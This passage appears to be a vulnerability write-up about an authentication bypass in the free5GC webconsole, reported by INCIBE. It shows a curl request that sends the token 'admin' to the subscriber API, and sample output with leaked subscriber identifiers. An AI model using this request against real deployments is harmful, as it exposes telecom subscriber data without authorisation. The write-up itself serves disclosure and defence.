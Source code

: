 ## CSRF (Cross-Site Request Forgery) Vulnerability

The vulnerability was discovered by INCIBE, and they promptly notified the free5GC team via email.
![](img/7.png)

The [corresponding issue](https://github.com/free5gc/free5gc/issues/387) related to this vulnerability is also documented in the free5gc repository. Despite the typical deployment of the webconsole within LAN or Docker environments, it's essential to exercise caution regarding users who operate this service on a public IP or within an insecure network environment.

In a nutshell, an attacker can gain unauthorized access to the database by merely setting the token to the term **'admin'**.
```
$ curl '<webconsole's IP>:5000/api/subscriber' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0' -H 'Accept: application/json' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://<webconsole's IP>:5000/' -H 'Connection: keep-alive' -H 'X-Requested-With: XMLHttpRequest' -H 'Token: admin' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache'
```

Subsequently, they can directly retrieve subscriber information from the server's MongoDB.
```
[{"plmnID":"20893","ueId":"imsi-208930000000003"}]
```

Undoubtedly, this vulnerability is of significant concern since the intended safeguard, allowing access solely to **admin**, has been compromised, thereby enabling easy access for anyone.

## Trace Code

### Frontend
In `webconsole/frontend/src/util/AuthHelper.js`
